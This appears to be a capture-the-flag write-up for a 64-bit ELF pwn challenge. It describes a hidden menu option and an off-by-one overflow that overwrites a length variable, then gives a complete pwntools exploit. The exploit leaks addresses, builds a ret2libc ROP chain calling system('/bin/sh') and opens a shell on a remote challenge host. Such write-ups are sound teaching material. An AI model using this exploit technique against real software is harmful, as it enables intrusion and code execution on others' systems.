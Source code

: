 
![task2](imgs/4.png)
### Information
We were given a 64bit ELF file.
When we run the binary, the program is showing a menu , ( read run and exit ). The run function is useless, so we can only perform the read operation.

![task2](imgs/5.png)

But when decompiling the binary, we have one more option that is not shown in the menu message, which is "gomugomunomi" that calls mugiwara function.

The **mugiwara** function seems a bit complicated,first it initialize an integer variable named  **len** to 40.

Then it's copying each char of the buffer that we've read from the readSC function into another buffer.Finally, it's using fgets to read "len" bytes.

Inside the loop, it's checking if the char is 'z', if true, it'll execute buffer2[++i] = 0x89. So the idea is to trigger an off-bye-one bug by giving some buffer terminated by "zz". 

Example : buffer = "A"*37 + "zz"
When the loop reaches i = 37 ==> buffer[37] = 'z' , condition true, ==> buffer[++37] = buffer[38] = 0x89 , i++
                      i = 39 ==> buffer[39] = 'z', condition true, ==> buffer[++39] = buffer[**40**] = 0x89 i++
the last operation will trigger a bufferoverflow, overwriting the **len** variable  by 0x89 which will be used in the fgets.
                      
                      

![task2](imgs/7.png)


![task2](imgs/6.png)


### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
from time import sleep
#p = process("./one_piece")
p = remote("100.26.85.87",1238)
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazz"
p.sendline("read")
p.sendline(payload)
p.sendline("gomugomunomi")
p.recvuntil("right ? : ")
leak = int("0x" + p.recvline(),16)
binaire = leak - 0xa3a
puts_plt = binaire + 0x720
printf_plt = binaire + 0x1040
#Gadgets
poprdi = binaire + 0xba3
ret = binaire + 0x000000000000070e

log.info("binary base = "+hex(binaire))
pause()
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binaire+0x201fa0) #puts_got
payload += p64(puts_plt)
payload += p64(binaire+0x7a0) #_start

p.sendline(payload)
p.recvline()

leaklibc = u64(p.recvline().ljust(8,"\x00")) % 0xa000000000000
print "leaklibc = ",hex(leaklibc)
base = leaklibc - libc.symbols['puts']
log.info("libc base = "+hex(base)) 
p.sendline("read")
p.sendline("A"*37 + "zz")
p.sendline("gomugomunomi")
sleep(2)
system = base + libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.info("/bin/sh = "+hex(binsh))
log.info("system = "+hex(system))
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(leak+0x5)
p.sendline(payload)
log.warn("sending payload ...")
p.sendline("cat flag.txt")
p.interactive()
```
